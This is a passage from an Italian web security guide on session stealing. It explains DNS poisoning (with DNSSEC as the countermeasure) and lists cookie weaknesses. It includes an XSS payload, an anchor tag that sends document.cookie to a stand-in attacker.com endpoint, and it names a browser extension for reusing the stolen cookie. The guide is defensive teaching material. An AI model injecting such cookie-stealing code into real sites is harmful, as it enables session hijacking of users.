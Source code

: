 **Esempio**

Tramite la tecnica del DNS poisoning, l’attaccante può inserire record falsati nella cache del DNS Server di
cui si serve l’applicazione. Un file utilizzato dall’applicazione viene risolto puntando a un file fornito
dall’attaccante. L’url [http://www.example.com/img_4_cookie.jpg](http://www.example.com/img_4_cookie.jpg) viene risolto dirigendo la richiesta verso il
file con lo stesso nome fornito dalla macchina dell’attaccante. Il sito sotto attacco, a quel punto, invierà
proprio all’attaccante il suo cookie. Dal cookie il malintenzionato potrà leggere l’id di sessione e utilizzarlo
per un’operazione di spoofing.

**Contromisure**

Per prevenire il DNS poisoning, il responsabile del Domain Name Server può adottare misure di protezione
che vanno sotto il nome di **Domain Name System Security Extensions (DNSSEC)**.

##### 6.2.1.1 Cookie .....................................................................................................................................................................

L’attacco attraverso il quale un aggressore riesce solitamente ad appropriarsi in modo indebito del cookie
di un altro utente è il Cross Site Scripting. Altri fattori in fase di sviluppo dell’applicazione influenzano
comunque la possibilità di portare a termine con successo un’attività di Session Stealing. Questi sono in
particolare:
 La generazione di cookie il cui tempo di scadenza non è chiaramente indicato;
 La generazione di cookie persistenti nel disco del client anche dopo il termine della sessione;
 La generazione di cookie non cifrati e trasmessi tramite richieste clear-text;
 La validità del cookie anche dopo un periodo di inattività dell’utente molto lungo;
 L’assenza dell’attributo HttpOnly in fase di generazione del cookie che ne agevola l’accesso a script
client-side;
 L’utilizzo di valori ricorrenti e non randomici che compongono il cookie durante la sua generazione.

**Esempio**


E’possibile entrare in possesso di un cookie di sessione, tramite un attacco di Cross Site Scripting, ad
esempio iniettando il seguente codice:
<a href="#" onclick="window.location =
'http://attacker.com/stole.cgi?text=' + escape(document.cookie); return
false;">Click here!</a>
L’id di sessione, in quanto autenticato, può essere utilizzato per effettuare richieste considerate valide
verso il server. Le modalità attraverso le quali è possibile sfruttare gli attributi del cookie rubato per
assegnarli alla propria sessione, dipendono dal browser. Alcune estensioni, come ad esempio
“EditThsCookie” su Chrome, permettono di modificare agevolmente il cookie che si sta utilizzando.
